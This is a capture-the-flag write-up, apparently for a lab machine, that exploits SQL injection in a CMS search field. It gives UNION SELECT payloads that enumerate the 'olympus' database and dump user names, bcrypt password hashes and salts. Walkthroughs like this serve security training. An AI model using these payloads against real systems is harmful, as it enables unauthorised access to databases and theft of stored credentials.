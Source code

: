 
We are greeted by a CMS with some blog posts

Looking around, there is a search and a login field

![image](/assets/img/Pasted image 20220731160239.png)

Testing for SQL injection in the search field by submitting a `'` (single quote) in the text box, we get a MySQL error as a response.

![image](/assets/img/Pasted image 20220731160802.png)

Opening burp and turning our proxy on we can capture this request

<br><br>

### SQL Injection

Find out which columns are text and where they are located
```
search=x' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- -&submit=
```

![image](/assets/img/Pasted image 20220731163052.png)
- We will be using the 4th column

Retrieve database names:
```
search=x' UNION ALL SELECT 1,2,3,concat(schema_name),5,6,7,8,9,10 FROM information_schema.schemata-- -&submit=
```
- Found `olympus` database

Retrieve table names:
```
search=x' UNION ALL SELECT 1,2,3,concat(table_name),5,6,7,8,9,10 FROM information_schema.TABLES WHERE table_schema='olympus'-- -&submit=
```
- Found `users` table

Retrieve column names:
```
search=x' UNION ALL SELECT 1,2,3,concat(column_name),5,6,7,8,9,10 FROM information_schema.COLUMNS WHERE TABLE_NAME='users'-- -&submit=
```
- Found `user_name`, `user_password`, and `randsalt`  columns

Retrieve data:
```
search=x' UNION ALL SELECT 1,2,3,concat(user_name, ':', user_password, ' salt: ', randsalt),5,6,7,8,9,10 FROM users-- -&submit=
```

Username | Password | Salt
------------ | ------------ | ------------
prometheus | `$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C` |
root | `$2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK` | dgas
zeus | `$2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC` | dgas
